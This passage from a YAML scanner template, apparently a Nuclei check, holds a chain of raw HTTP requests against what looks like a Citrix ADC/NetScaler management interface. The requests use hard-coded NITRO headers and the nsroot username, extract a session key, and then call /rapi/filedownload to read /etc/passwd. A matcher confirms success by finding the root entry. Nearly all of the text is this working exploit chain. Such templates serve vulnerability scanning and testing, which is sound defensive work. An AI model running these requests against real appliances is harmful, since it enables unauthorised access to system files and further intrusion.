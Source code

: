 ```yaml
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```
